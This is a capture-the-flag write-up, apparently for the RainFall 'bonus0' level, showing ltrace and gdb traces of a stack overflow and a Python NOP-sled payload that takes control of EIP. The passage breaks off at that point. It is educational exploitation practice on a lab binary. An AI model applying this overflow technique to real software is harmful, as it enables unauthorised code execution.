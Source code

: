 And it segfaulted, we can more details on it using ltrace.

```sh
bonus0@RainFall:~$ ltrace ./bonus0 
__libc_start_main(0x80485a4, 1, 0xbffff804, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - " - 
)                                                             = 4
read(0, AAAAAAAAAAAAAAAAAAAAA
"AAAAAAAAAAAAAAAAAAAAA\n", 4096)                                = 22
strchr("AAAAAAAAAAAAAAAAAAAAA\n", '\n')                                 = "\n"
strncpy(0xbffff6e8, "AAAAAAAAAAAAAAAAAAAA", 20)                         = 0xbffff6e8
puts(" - " - 
)                                                             = 4
read(0, AAAAAAAAAAAAAAAAAAAAA
"AAAAAAAAAAAAAAAAAAAAA\n", 4096)                                = 22
strchr("AAAAAAAAAAAAAAAAAAAAA\n", '\n')                                 = "\n"
strncpy(0xbffff6fc, "AAAAAAAAAAAAAAAAAAAA", 20)                         = 0xbffff6fc
strcpy(0xbffff736, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)               = 0xbffff736
strcat("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., "AAAAAAAAAAAAAAAAAAAA\364\017\375\267") = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...
puts("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��� AAAAAAAAAAAAAAAAAAAA���
)                             = 70
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
bonus0@RainFall:~$ 
```

As you saw, we actually segfaulted at the last print of the main.

Since our buffer doesn't end, the printf will go through the hole memory of the program, and will end up segfaulting by reading an address it should not to.


```sh
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAAA
 - 
AAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��� AAAAAAAAAAAAAAAAAAAA���

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb)
```

From there we can overflow things.

We are going to overflow using the buffer, we know our buffer's size is 4096, so we have to remove the \0, and then use an offset of 4096 to start overwriting.

After a few try and adjustement, we now control the EIP

```sh
bonus0@RainFall:~$ python -c "print 'A' * 20 + '\n' + 'B' * 20 + '\x90' * 4068 + 'AAAAAA'" > /tmp/payload
bonus0@RainFall:~$ gdb ./bonus0 -q
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) run < /tmp/payload
Starting program: /home/user/bonus0/bonus0 < /tmp/payload
 - 
 - 
AAAAAAAAAAAAAAAAAAAA�������������AAAAAA �������������AAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```